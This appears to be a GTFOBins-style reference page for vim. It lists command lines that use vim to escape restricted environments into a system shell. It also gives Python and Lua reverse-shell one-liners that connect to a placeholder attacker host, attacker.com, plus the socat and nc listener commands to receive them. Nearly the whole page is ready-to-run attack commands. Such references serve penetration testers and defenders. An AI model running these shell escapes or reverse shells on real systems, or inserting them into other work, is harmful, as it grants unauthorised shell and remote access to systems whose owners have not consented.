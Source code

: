 # GTFOBin: vim

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
vim -c ':!/bin/sh'
```

```
vim --cmd ':set shell=/bin/sh|:shell'
```

This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3.

```
vim -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```

This requires that `vim` is compiled with Lua support.

```
vim -c ':lua os.execute("reset; exec sh")'
```

## Reverse shell

It can send back a reverse shell to a listening attacker to open a remote network access.

This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3. Run `socat file:`tty`,raw,echo=0 tcp-listen:12345` on the attacker box to receive the shell.

```
export RHOST=attacker.com
export RPORT=12345
vim -c ':py import vim,sys,socket,os,pty;s=socket.socket()
s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")
vim.command(":q!")'
```

## Non-interactive reverse shell

It can send back a non-interactive reverse shell to a listening attacker to open a remote network access.

Run `nc -l -p 12345` on the attacker box to receive the shell. This requires that `vim` is compiled with Lua support and that `lua-socket` is installed.

```
export RHOST=attacker.com
export RPORT=12345
vim -c ':lua local s=require("socket"); local t=assert(s.tcp());
  t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
  while true do
    local r,x=t:receive();local f=assert(io.popen(r,"r"));
    local b=assert(f:read("*a"));t:send(b);
  end;
  f:close();t:close();'
```
